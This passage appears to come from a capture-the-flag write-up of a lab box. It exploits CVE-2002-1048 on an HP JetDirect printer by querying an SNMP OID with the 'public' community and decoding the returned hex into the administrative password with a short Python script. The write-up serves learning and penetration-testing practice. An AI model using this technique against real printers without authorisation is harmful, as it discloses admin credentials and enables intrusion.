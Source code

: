 That looks like a great way to get a foothold, but unfortunately this box is not
vulnerable to it. Back to [ExploitDB](https://www.exploit-db.com/), we also find
[HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure](https://www.exploit-db.com/exploits/22319)([CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048)).

#### Password disclosure ([CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048))

[CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048) is a
vulnerability affecting HP JetDirect printers. It allows attackers to obtain the
administrative password for the web and the Telnet services by querying specific
OIDs.

#### Exploitation

This CVE is easy to exploit, we just need to retrieve the value of the OID
`.1.3.6.1.4.1.11.2.3.9.1.1.13.0`.

```sh
❯ snmpwalk "10.10.11.107" -v1 -c "public" ".1.3.6.1.4.1.11.2.3.9.1.1.13.0"
```

```
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Okay, so now we have a series of hexadecimal values corresponding to the
password.

Let's use this Python script to decode it:

```py
# Save the hex-encoded string
numbers = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

# Split the initial string into separate hex values
array = numbers.split(" ")

# Convert each hex value to its corresponding ASCII character
characters = [chr(int(hex_value, 16)) for hex_value in array]

# Join the characters to form the final string
result_string = "".join(characters)

# Show the result
print(result_string)
```

I'll save it as `/workspace/decoder.py`, and I'll execute it:

```sh
❯ python3 /workspace/decoder.py
```
